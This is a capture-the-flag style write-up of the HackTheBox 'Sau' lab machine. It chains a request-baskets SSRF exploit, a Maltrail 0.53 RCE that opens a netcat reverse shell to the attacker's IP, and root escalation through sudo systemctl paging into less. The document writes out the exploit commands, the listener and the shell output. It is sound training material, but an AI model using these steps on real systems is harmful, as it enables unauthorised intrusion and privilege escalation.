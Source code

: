 +++
title = 'HackTheBox - Sau box write-up'
date = 2024-12-25T22:51:45+01:00
slug = "hackthebox-sau-writeup"
+++

![Sau Machine Image](/sau.png)

## Intro
---

It's far too early in my journey, I suppose; there’s a lot to learn before that, since I don't know many of these things. But I've been looking into what’s needed to prepare for the OSCP eventually and if there are any labs that provide decent experience resembling the OSCP exam. I came across a repo by [Rana Khalil](https://www.linkedin.com/in/ranakhalil1/), which led me to a great [spreadsheet of labs](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) by TJ_Null. These labs are supposedly a good way to start building practical skills for OSCP (be sure to check the PWK V3 tab). [This box](https://app.hackthebox.com/machines/Sau) is one of many — let's work through this box together.


## Nmap
---

Scanning the target machine reveals a few open ports:

- 22/tcp - OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
- 80/tcp    filtered http
- 55555/tcp open     unknown

```
┌──(ognard㉿ognard)-[~]
└─$ nmap -sC -sV sau.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-25 20:24 CET
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Wed, 25 Dec 2024 19:25:20 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Wed, 25 Dec 2024 19:24:54 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Wed, 25 Dec 2024 19:24:54 GMT
|_    Content-Length: 0

...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.50 seconds
```

## Request-baskets CVE
---

As we can see from our Nmap scan, port 80 is filtered, meaning we can't access `http://sau.htb` in the browser.

However, if we access `http://sau.htb` on port 55555 in the browser, we find an application running, powered by `request-baskets` version 1.2.1.

To gain access to the filtered service on port 80, we’ll use an SSRF exploit for `request-baskets` version 1.2.1 ([CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh)):

```
┌──(ognard㉿ognard)-[~]
└─$ ./request-baskets.sh http://sau.htb:55555 http://sau.htb:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "vgagsl" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/vgagsl now makes the server request to http://sau.htb:80.
> Authorization: 7bxwJB7IJlxTDrCFkMpuTie-Td_n-jZKgGsoRHmeh9QG
```

This exploit allows us to access other services running on the target machine that only accept connections from localhost. It works by creating a malicious basket on the target's `request-basket` server. We’ll provide the `request-basket` server running on port 55555 as the first argument and specify the target service we want to access — in this case, the site running on the filtered port 80.


## Maltrail
---

Now that we have access to the site through the newly created basket from the previous exploit, we can see that the site is powered by the Maltrail (v0.53) service. A quick search reveals an existing [RCE exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) for this service, which we can utilize:

```
┌──(ognard㉿ognard)-[~]
└─$ python3 maltrail-0.53.py 10.10.14.24 4444 http://sau.htb:55555/vgagsl
Running exploit on http://sau.htb:55555/vgagsl/login
```

>  Keep in mind that you’ll need to have a running listener in another terminal on your local machine to establish a connection with the target machine.

And we're in:

```
┌──(ognard㉿ognard)-[~]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.11.224] 40704
$ whoami
puma
$ 
```

### Stabilize the Shell
---

To stabilize the shell, we’ll do the following:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Next, we'll press Ctrl+Z and run this:

```
stty raw -echo;fg
export TERM=xterm
```

## Privilege Escalation
---

We can already **read the user flag in the user's home directory**. Next, we need to escalate our privileges to root. We can use `sudo -l` to check if there’s anything that `puma` can run with root privileges:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

While there are instructions for abusing `systemctl` on [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/), we can't do much with that in our case. However, what we can do for now is check the version of `systemctl` on this machine:

```
puma@sau:~$ /usr/bin/systemctl --version
systemd 245 (245.4-4ubuntu3.22)
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN2 -IDN +PCRE2 default-hierarchy=hybrid
```

Maybe we can find a vulnerability for this version? After some searching, we come across CVE-2023–26604. When we run `sudo /usr/bin/systemctl status trail.service`, the status output is displayed in `less`. Since we’re running this command with root privileges, we’ve essentially opened `less` with root privileges as well. And since `less` can execute commands, we can use the `!sh` command to gain access to the root shell.

```
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2024-12-25 15:58:03 UTC; 4h 56min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 896 (python3)
      Tasks: 49 (limit: 4662)
     Memory: 339.0M
     CGroup: /system.slice/trail.service
             ├─  896 /usr/bin/python3 server.py
             ├─ 1150 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1151 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1154 sh
             ├─ 1155 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1156 /bin/sh
             ├─ 1160 python3 -c import pty;pty.spawn("/bin/bash")
             ├─ 1161 /bin/bash
             ├─ 1175 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1176 /bin/sh -c logger -p auth.info -t "maltrail[896]" "Failed >
             ├─ 1179 sh
             ├─ 1180 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 1181 /bin/sh
             ├─ 1182 python3 -c import pty;pty.spawn("/bin/bash")
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

**Now we can read the root flag in /root/ directory.**

And... that's all! **Sau is down** — we’ve owned this easy and fun box!